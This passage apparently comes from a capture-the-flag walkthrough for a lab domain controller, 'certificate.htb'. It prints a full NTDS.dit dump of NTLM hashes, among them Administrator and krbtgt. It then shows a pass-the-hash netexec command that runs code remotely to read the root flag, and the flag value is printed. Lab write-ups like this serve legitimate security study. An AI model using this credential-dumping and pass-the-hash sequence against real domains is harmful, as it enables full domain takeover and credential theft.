NTDSUTIL    10.10.11.71     445    DC01             [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\174930361
NTDSUTIL    10.10.11.71     445    DC01             Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.10.11.71     445    DC01             [+] NTDS.dit dumped to C:\Windows\Temp\174930361
NTDSUTIL    10.10.11.71     445    DC01             [*] Copying NTDS dump to /tmp/tmpqgfmmofr
NTDSUTIL    10.10.11.71     445    DC01             [*] NTDS dump copied to /tmp/tmpqgfmmofr
NTDSUTIL    10.10.11.71     445    DC01             [+] Deleted C:\Windows\Temp\174930361 remote dump directory
NTDSUTIL    10.10.11.71     445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.10.11.71     445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6:::
NTDSUTIL    10.10.11.71     445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.10.11.71     445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:f36e0bc3c9a34c3acdb8b79df54f27cd:::
NTDSUTIL    10.10.11.71     445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9de0f65ce37b57bc0a8fce1f9d4402c7:::
NTDSUTIL    10.10.11.71     445    DC01             WS-01$:1103:aad3b435b51404eeaad3b435b51404ee:3641f1cd0daa8dfe41e1d1b2dbbed6f4:::
NTDSUTIL    10.10.11.71     445    DC01             Kai.X:1105:aad3b435b51404eeaad3b435b51404ee:003c4c38e98c78352362095a6028f720:::
NTDSUTIL    10.10.11.71     445    DC01             Sara.B:1109:aad3b435b51404eeaad3b435b51404ee:c2367169e3279fa3e85d9d25f0e85e45:::
NTDSUTIL    10.10.11.71     445    DC01             John.C:1111:aad3b435b51404eeaad3b435b51404ee:3f6d0e5bbf21d7f1c72a8eebc82547f5:::
NTDSUTIL    10.10.11.71     445    DC01             Aya.W:1112:aad3b435b51404eeaad3b435b51404ee:a72e757f0f5859819e90d1a71666f933:::
NTDSUTIL    10.10.11.71     445    DC01             Nya.S:1113:aad3b435b51404eeaad3b435b51404ee:a72e757f0f5859819e90d1a71666f933:::
NTDSUTIL    10.10.11.71     445    DC01             Maya.K:1114:aad3b435b51404eeaad3b435b51404ee:a72e757f0f5859819e90d1a71666f933:::
NTDSUTIL    10.10.11.71     445    DC01             Lion.SK:1115:aad3b435b51404eeaad3b435b51404ee:3b24c391862f4a8531a245a0217708c4:::
NTDSUTIL    10.10.11.71     445    DC01             Eva.F:1116:aad3b435b51404eeaad3b435b51404ee:f30914c4b456ef5691bf24b50b332e99:::
NTDSUTIL    10.10.11.71     445    DC01             Ryan.K:1117:aad3b435b51404eeaad3b435b51404ee:b1bc3d70e70f4f36b1509a65ae1a2ae6:::
NTDSUTIL    10.10.11.71     445    DC01             certificate.htb\akeder.kh:1119:aad3b435b51404eeaad3b435b51404ee:9ca9ba1e46bd75574002b8b1967bb2de:::
NTDSUTIL    10.10.11.71     445    DC01             kara.m:1121:aad3b435b51404eeaad3b435b51404ee:831a13eb0ff31d5b80eb062f24bfb210:::
NTDSUTIL    10.10.11.71     445    DC01             Alex.D:1124:aad3b435b51404eeaad3b435b51404ee:32be964c0519ef40083157825c7949ca:::
NTDSUTIL    10.10.11.71     445    DC01             certificate.htb\karol.s:1127:aad3b435b51404eeaad3b435b51404ee:a242ea4fbd87f0feff1203bad168b770:::
NTDSUTIL    10.10.11.71     445    DC01             saad.m:1128:aad3b435b51404eeaad3b435b51404ee:a242ea4fbd87f0feff1203bad168b770:::
NTDSUTIL    10.10.11.71     445    DC01             xamppuser:1130:aad3b435b51404eeaad3b435b51404ee:ed547ca356c218f5e76c2640fc3429ab:::
NTDSUTIL    10.10.11.71     445    DC01             WS-05$:1131:aad3b435b51404eeaad3b435b51404ee:eae20b8c895e7ac2e1a4870f71738058:::
NTDSUTIL    10.10.11.71     445    DC01             YOVECIO$:6101:aad3b435b51404eeaad3b435b51404ee:71ddafa4193caa4376aae61bcfeaf9d5:::
NTDSUTIL    10.10.11.71     445    DC01             yovecio:6102:aad3b435b51404eeaad3b435b51404ee:bc57bbc854341305d305e8695917b651:::
NTDSUTIL    10.10.11.71     445    DC01             [+] Dumped 23 NTDS hashes to None.ntds of which 19 were added to the database
NTDSUTIL    10.10.11.71     445    DC01             [*] To extract only enabled accounts from the output file, run the following command:
NTDSUTIL    10.10.11.71     445    DC01             [*] grep -iv disabled None.ntds | cut -d ':' -f1

```

Now I think efs is active because even if I am admin i can't open the file:

```
*Evil-WinRM* PS C:\users\administrator\desktop> cat root.txt
Access to the path 'C:\users\administrator\desktop\root.txt' is denied.
At line:1 char:1
+ cat root.txt
+ ~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\users\administrator\desktop\root.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
*Evil-WinRM* PS C:\users\administrator\desktop> 


```

NVM I will use the hash from NTDSUtil to login as administrator and grab the last flag!

```
└─# netexec smb dc01.certificate.htb -u Administrator -H d804304519bf0143c14cbf1c024408c6 -X 'cat C:\users\administrator\desktop\root.txt'
SMB         10.10.11.71     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certificate.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.71     445    DC01             [+] certificate.htb\Administrator:d804304519bf0143c14cbf1c024408c6 (Pwn3d!)
SMB         10.10.11.71     445    DC01             [+] Executed command via wmiexec
SMB         10.10.11.71     445    DC01             #< CLIXML
SMB         10.10.11.71     445    DC01             99d0cfb5b491e8f47512a8114b991a1c
SMB         10.10.11.71     445    DC01             <Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04"><Obj S="progress" RefId="0"><TN RefId="0"><T>System.Management.Automation.PSCustomObject</T><T>System.Object</T></TN><MS><I64 N="SourceId">1</I64><PR N="Record"><AV>Preparing modules for first use.</AV><AI>0</AI><Nil /><PI>-1</PI><PC>-1</PC><T>Completed</T><SR>-1</SR><SD> </SD></PR></MS></Obj></Objs>

```

&nbsp;
